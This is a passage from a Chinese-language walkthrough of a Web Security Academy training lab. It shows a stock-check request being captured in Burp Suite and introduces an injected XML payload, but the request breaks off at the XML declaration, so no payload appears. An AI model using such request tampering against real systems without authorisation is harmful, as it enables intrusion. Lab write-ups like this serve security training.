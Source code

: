 [![](assets/1706060044-e81ac3dd9e83e1ffa1a847b63ea10231.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131417-41f534f0-b9ae-1.png)  
检查库存并使用 burpsuite 抓包  
[![](assets/1706060044-06ae2b967893fb9489cd875a65a7008e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131428-48590196-b9ae-1.png)  
数据包如下所示：  
[![](assets/1706060044-e258d673045363c8aeeb74d7a74508bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131444-51dda65e-b9ae-1.png)  
随后更改请求报文插入如下恶意载荷

```bash
POST /product/stock HTTP/1.1
Host: 0a43008404a4599280233f490021009d.web-security-academy.net
Connection: close
Content-Length: 225
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a43008404a4599280233f490021009d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a43008404a4599280233f490021009d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ToZwNYGafVMppmLL2oNYxQnw7KGjBM3O

<?xml version="1.0" encoding="UTF-8"?>
```
